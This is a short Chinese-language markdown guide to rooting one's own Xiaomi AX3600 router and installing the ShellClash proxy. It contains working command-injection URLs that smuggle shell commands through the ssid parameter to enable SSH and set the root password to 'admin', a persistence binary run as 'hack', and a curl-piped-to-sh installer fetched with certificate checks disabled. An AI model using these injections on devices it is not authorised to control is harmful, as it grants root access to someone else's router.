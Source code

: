 


# 降级
## 安装ax3600 1.0.17 固件
* 安装后重启 进入小米路由后台 记录stok=后面到一串数字
# 获取ssh
* 该链接stok=后面填充上面步骤的数字 http://192.168.31.1/cgi-bin/luci/;stok=/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
# 修改ssh密码 admin
* 该链接stok=后面填充上面步骤的数字 http://192.168.31.1/cgi-bin/luci/;stok=/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B

# 通过ssh登陆小米路由
* ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.31.1
* 密码 admin
# 备份数据
* ssh登陆小米路由
* mkdir /tmp/syslogbackup/
* dd if=/dev/mtd9 of=/tmp/syslogbackup/mtd9
#固化 ssh
* 将fuckax3600上传小米路由
* scp   -O -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa /Users/jianbo.dai/Downloads/ax3600/fuckax3600 root@192.168.31.1:/tmp/
* chmod +x /tmp/fuckax3600
* ./tmp/fuckax3600 hack
* ./tmp/fuckax3600 lock
# 安装shellclash
* sh -c "$(curl -kfsSl https://cdn.jsdelivr.net/gh/juewuy/ShellClash@master/install.sh)" && source /etc/profile &> /dev/null
* 在ssrdog中 “复制订阅” 倒入clash


# 计算sn
* https://miwifi.dev/ssh
# 小米路由永久固化ssh
* https://juewuy.github.io/gDyfIPSsZ/




